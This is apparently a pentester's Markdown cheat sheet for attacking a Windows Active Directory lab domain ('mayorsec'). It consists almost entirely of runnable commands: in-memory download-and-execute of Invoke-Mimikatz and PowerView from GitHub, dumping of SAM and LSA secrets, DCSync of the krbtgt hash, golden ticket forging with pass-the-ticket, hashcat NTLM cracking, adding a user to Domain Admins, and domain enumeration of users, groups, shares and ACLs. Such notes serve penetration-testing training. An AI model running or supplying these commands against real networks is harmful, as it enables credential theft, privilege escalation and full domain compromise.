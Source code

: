 
## Load mimikatz into memory 
### iex (New-Object Net.WebClient).DownloadString('https://github.com/dievus/PowerShellForPentesters/blob/main/Tools/Invoke-Mimikatz.ps1')
- invoke-mimikatz -command token::elevate
- invoke-mimikatz -command lsadump::sam 
- invoke-mimikatz -command lsadump::secrets
### hashcat to crack 
- hashcat.exe -a 0 -m 1000 <hash> wordlist.txt -O 
### Domain Admin remote
- runas /user:j.taylor "powershell.exe"
- net group "domain admins" j.taylor /add /domain 
- $password = ConvertTo-SecureString <password> -AsPlainText -Force
- $cred = new-object system.management.automation.pscredential ("mayorsec\j.taylor", $password)
- enter-pssession -computername dc01 -credential $cred 
### Golden Ticket Persistence
- iex (New-Object Net.WebClient).DownloadString('https://github.com/dievus/PowerShellForPentesters/blob/main/Tools/Invoke-Mimikatz.ps1')
- invoke-mimikatz -command '"lsadump::dcsync /domain:<domain> /user:krbtgt"'
- iex (New-Object Net.WebClient).DownloadString('https://github.com/dievus/PowerShellForPentesters/blob/main/Tools/PowerView.ps1')
- get-domainSID -domain mayorsec.local 
- invoke-mimikatz -command '"kerberos::golden /user:administrator /domain:<domain> /sid:<domainsid> /krbtgt:<hash> /ptt"'
- invoke-mimikatz -command '"kerberos::golden /user:administrator /domain:<domain> /sid:<domainsid> /krbtgt:<hash>"'
- klist
### do anything on dc just run the command for ticket
- ls \\dc01\\C$ 


## Load powerview into memory 
iex (New-Object Net.WebClient).DownloadString('https://github.com/dievus/PowerShellForPentesters/blob/main/Tools/PowerView.ps1')
### Users and Groups
- get-netuser
- get-netuser | select cn
- get-netuser | select -expandproperty samaccountname
- find-userfield -searchfield description
- find-userfield -searchfield description "admin"
- find-userfield -searchfield description "built"
- get-netgroup
- get-netgroup -username "s.chisholm"
- net users s.chrisholm /domain
- get-netgroup -groupname "admins" -fulldata
- get-netgroup -groupname "domain admins" -fulldata
- invoke-enumeratelocaladmin
### Computers and Shares in Domain
- get-netcomputer -fulldata
- get-netcomputer -operatingsystem "*Windows 10*"
- get-netcomputer -operatingsystem "*Windows Server*"
- invoke-sharefinder
- ls \\DC01\Shared
### GPO
- get-netgpo
- get-netgroup -groupname engineering
- get-objectacl -samaccountname "engineering" -resolveguids